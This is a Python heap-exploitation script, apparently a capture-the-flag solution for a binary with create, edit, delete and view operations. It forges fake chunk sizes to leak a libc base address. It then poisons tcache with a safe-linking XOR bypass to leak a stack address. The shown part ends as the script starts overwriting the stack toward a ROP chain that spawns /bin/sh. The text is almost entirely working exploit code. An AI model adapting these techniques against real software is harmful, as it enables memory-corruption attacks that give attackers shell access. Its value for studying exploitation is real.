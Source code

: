 ``` py 


#=================LEAK LIBC=================

# padding za fake chunk
for i in range(15,30):
    create(padd(int.to_bytes(i,1,'little')), '96',b'R'*24 + b'\x00'*8 + p64(0x41))


edit(padd(b'\x06'),padd(b'\x01\x00\x06'),b'BBBBBBBB'+b'\x00'*8+p64(0x501))

create(padd(int.to_bytes(31,1,'little')), '8',b'H'*8)

delete(padd(b'\x1f'))

edit(padd(b'\x07'),padd(b'\x01\x00\x07'),'X'*24) ###

view_(padd(b'\x08'))

p.recvuntil(b'X'*24)
leak_libc = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00'))
libc_base = leak_libc -0x1f2cc0

print('leak_libc ',hex(libc_base))

#=================LEAK STACK=================

edit(padd(b'\x08'),padd(b'\x01\x00\x08'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) ###

delete(padd(b'\x13'))
delete(padd(b'\x14'))
delete(padd(b'\x0f'))


create(padd(int.to_bytes(33,1,'little')), '64',b'T'*8)
kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)

create(padd(int.to_bytes(34,1,'little')), '64',b'T'*8 + b'\x00'*8+p64(0x71)+ p64(ftakni_ga_not))
create(padd(int.to_bytes(35,1,'little')), '96',b'K'*8) ##
create(padd(int.to_bytes(36,1,'little')), '96',b'I'*8)

view_(padd(b'\x24'))

p.recvuntil(b'I'*8)
leak_stack = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00'))
print('leak_stack ',hex(leak_stack))

#=================OVERWRITE STACK TO ROP=================
print("Trying to fork /bin/sh")
kjer_smo = leak + 0x3a0

kje_bi_radi_bli = leak_stack -0x158
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)



delete(padd(b'\x12'))
delete(padd(b'\x11'))
delete(padd(b'\x10'))

```